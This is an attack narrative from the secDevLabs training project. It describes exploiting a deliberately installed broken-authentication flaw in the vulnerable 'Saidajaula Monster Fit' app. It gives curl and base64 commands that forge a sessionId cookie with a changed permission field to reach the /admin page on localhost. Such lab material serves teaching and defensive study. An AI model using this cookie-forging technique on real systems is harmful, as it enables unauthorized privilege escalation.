 # Attack Narrative - Saidajaula Monster Fit

The main goal of this documentation is to describe how a malicious user could exploit a Broken Authentication vulnerability intentionally installed on Saidajaula Monster Fit from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a2/saidajaula-monster) yet, you should check them before reading this narrative.

----

## 👀

It's possible to reach the server's web application through the HTTP port 10082, as we can see from the image below:

<p align="center">
    <img src="../images/img1.png"/>
</p>

We can sign-up for a new account by clicking the `SIGN UP` button on the top right corner. Then, we are redirected to the `/register` page. As shown by the image below:

<p align="center">
    <img src="attack1.png"/>
</p>

After creating an account, we are redirected to the `/login` page and, to better understand how the application is handling the requests, we will perform a login using the following `curl` command. As shown by the image:

```sh
curl -i -L localhost:10082/login -F "username=daniel" -F "password=daniel" -X POST
```

<p align="center">
    <img src="attack2.png"/>
</p>

As we can see from the image above, the application sets a cookie for the user, `sessionId`. By having a better look at this cookie, we find out that it is actually base64 encoded, and it's content are as following:

<p align="center">
    <img src="attack3.png"/>
</p>

Now, by having a look at the app's code, it's possible to see that all the information to generate this cookie is known to any user, as shown by the following image:

<p align="center">
    <img src="attack4.png"/>
</p>

## 🔥

Knowing how the cookie is being generated, a malicious user could create his own to gain access to pages he shouldn't have. An attacker could obtain admin privileges by changing the cookie's `permission` field, as depicted by the image below:

<p align="center">
    <img src="attack5.png"/>
</p>

It is also possible to generate this cookie from terminal using `base64` command: 

```sh
echo '{"permissao": 1, "username": "daniel"}' | base64
```

After that, the attacker needs to concatenate the cookie's fields and the hash, separated by a dot. As shown by the following image:

<p align="center">
    <img src="attack6.png"/>
</p>

The server expects the cookie to be in base64 format, so the attacker needs to encode his cookie. As we can see from the image below using the command:

```sh
echo -n '{"permissao": 1, "username": "daniel"}.35771d6998cf216aa3297d1fb54462e04d85443be6092a02961b52b24c2d3250' | base64
```

<p align="center">
    <img src="attack7.png"/>
</p>

Now, all an attacker needs to do is try to access the `/admin` only page. As shown by the image below:

```sh
curl -v --cookie "sessionId=eyJwZXJtaXNzYW8iOiAxLCAidXNlcm5hbWUiOiAiZGFuaWVsIn0uMzU3NzFkNjk5OGNmMjE2YWEzMjk3ZDFmYjU0NDYyZTA0ZDg1NDQzYmU2MDkyYTAyOTYxYjUyYjI0YzJkMzI1MA==" http://localhost:10082/admin
```

<p align="center">
    <img src="attack8.png"/>
</p>
